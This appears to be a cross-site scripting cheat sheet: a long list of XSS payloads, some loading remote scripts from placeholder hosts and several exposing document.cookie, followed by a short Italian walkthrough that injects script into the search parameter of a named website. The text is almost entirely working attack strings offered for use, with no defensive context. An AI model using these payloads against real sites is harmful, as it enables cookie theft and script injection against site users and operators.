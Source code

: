 [color=red width=expression(alert(123))][color]

<BASE HREF="javascript:alert('XSS');//">

Execute(MsgBox(chr(88)&chr(83)&chr(83)))<

"></iframe><script>alert(123)</script>

<body onLoad="while(true) alert('XSS');">

'"></title><script>alert(1111)</script>

</textarea>'"><script>alert(document.cookie)</script>

'""><script language="JavaScript"> alert('X \nS \nS');</script>

</script></script><<<<script><>>>><<<script>alert(123)</script>

<html><noalert><noscript>(123)</noscript><script>(123)</script>

<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">

'></select><script>alert(123)</script>

'>"><script src = 'http://www.site.com/XSS.js'></script>

}</style><script>a=eval;b=alert;a(b(/XSS/.source));</script>

<SCRIPT>document.write("XSS");</SCRIPT>

a="get";b="URL";c="javascript:";d="alert('xss');";eval(a+b+c+d);

='><script>alert("xss")</script>

<script+src=">"+src="http://yoursite.com/xss.js?69,69"></script>

<body background=javascript:'"><script>alert(navigator.userAgent)</script>></body>

">/XaDoS/><script>alert(document.cookie)</script><script

src="http://www.site.com/XSS.js"></script>

data:text/html;charset=utf-7;base64,Ij48L3RpdGxlPjxzY3JpcHQ+YWxlcnQoMTMzNyk8L3NjcmlwdD4=





Code:
[+]Analisi di un attacco

Il sito www.caziotio.it ha un campo search, proviamo a cercare il nostro codice javascript e

l'url generato dovrebbe essere cosÃ¬:

http://www.caziotio.it/default.asp?rif=1&tiporicerca=2&strRicerca1=
%22%3E%3Cscript%3Ealert('prova');%3C/script%3E&strRicerca2=
&strRicerca3=&sel1=AND&sel2=AND&RicInt1=1&RicInt2=0&RicInt3=0

Vediamo che la variabile strRicerca1 contiene il nostro codice. Proviamo a Passarlo

direttamente e togliere le parti superflue:

http:www.caziotio.it/default.asp?rif=1&tiporicerca=2&str
Ricerca1="><script>alert(document.cookie);</script>
